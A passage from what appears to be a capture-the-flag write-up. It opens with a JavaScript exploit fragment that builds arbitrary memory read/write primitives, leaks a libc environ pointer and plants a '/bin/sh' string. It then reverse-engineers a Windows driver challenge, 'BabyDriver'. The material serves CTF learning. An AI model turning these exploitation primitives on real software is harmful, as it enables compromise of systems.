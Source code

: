 ```js
environ = libc_base + 0xd142d0n;
dvs[i].setBigUint64(0x1f8, bin_sh, true);
for(var j = 0; j < 0x100; j++){
    verify = dvs[j].getBigUint64(0, true);
    if(verify == 0x68732f6e69622fn){
        console.log("Found j");
        break;
    }
}

if(verify != 0x68732f6e69622fn){
    console.log("Try again 2");
    exit(0);
}

function aar(addr){
    dvs[i].setBigUint64(0x1f8, addr, true);
    return dvs[j].getBigUint64(0, true);
}
function aaw(addr, value){
    dvs[i].setBigUint64(0x1f8, addr, true);
    dvs[j].setBigUint64(0, value, true);
}

console.log(hex(aar(environ)));
```



## REVERSE

### BabyDriver

First look at the string and find Please Input Your Flag, cross-referenced to the main function![image-20220824151446574](http://img.l1near.top/image-20220824151446574.png)

#### sub_140006380

![image-20220824151507847](http://img.l1near.top/image-20220824151507847.png)

sub_1400035A0 is a function that generates random 8-bit characters, sub_1400036C0 passes the FileName generated earlier and then releases the driver to a fixed location, sub_1400037A0 and sub_140003890 are some operations related to driver loading and starting, while determining whether the program startup environment is in Win7 x64.![image-20220824151531828](http://img.l1near.top/image-20220824151531828.png)

The flag length is 32 bits, the encryption function is sub_140006750, continue to analyze the encryption function

#### sub_140006750

![image-20220824151549960](http://img.l1near.top/image-20220824151549960.png)
